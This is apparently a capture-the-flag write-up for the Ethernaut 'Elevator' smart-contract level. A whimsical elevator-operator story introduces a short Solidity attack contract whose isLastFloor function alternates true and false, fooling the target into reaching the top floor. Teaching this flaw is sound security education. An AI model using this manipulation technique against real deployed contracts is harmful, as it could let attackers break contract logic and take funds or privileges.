 ***Elevator***

![Alt text](penthouse.jpg)

You and some sick mates need to get to the penthouse. You get on the elevator and see a man standing inside. He controls where the elevator goes. You say to him, "good day, sir. Please `goto(floorNumber)`." but the elevator operator knows that the last floor of the building isn't somewhere you should be able to access. The building is n-dimensional, and no one aboard the elevator can be sure of what timeline they're in, let alone which floor the penthouse suite resides at.

The elevator operator considers your request, leans forward towards a phone to the front desk, and calls the manager. "I'm taking some gentlemen away to `floorNumber`, is that the last floor?"

A static crackle comes through the mic: *"no. send 'em up"*

"Just making sure I'm following the rules, lads!" The operator points at a sign on the wall titled 'RULES':

```
if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```

You and your mates thank him and step off the elevator onto `floorNumber` to stand in the hall for a bit and think on a strategy to get to the penthouse.

What if you head down to the lobby, distract the manager, answer the phone, and lie about the position of the penthouse? That's what the following code does...

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Hack {

  Elevator targetContract;

  constructor(address _targetAddr) {
          targetContract = Elevator(_targetAddr);
  }

  bool toggle = true;
    function isLastFloor(uint) external returns (bool){
      toggle = !toggle;
      return toggle;
    }

    function takeMeToThePenthouse(uint _floor) public{
      targetContract.goTo(_floor);
    }
}

```

Notice we're basically just answering true then false repeatedly. This breaks the logic of the calling contract, demonstrating that you can't rely on state storage to remain stable for critical logic.

![Alt text](complete.jpg)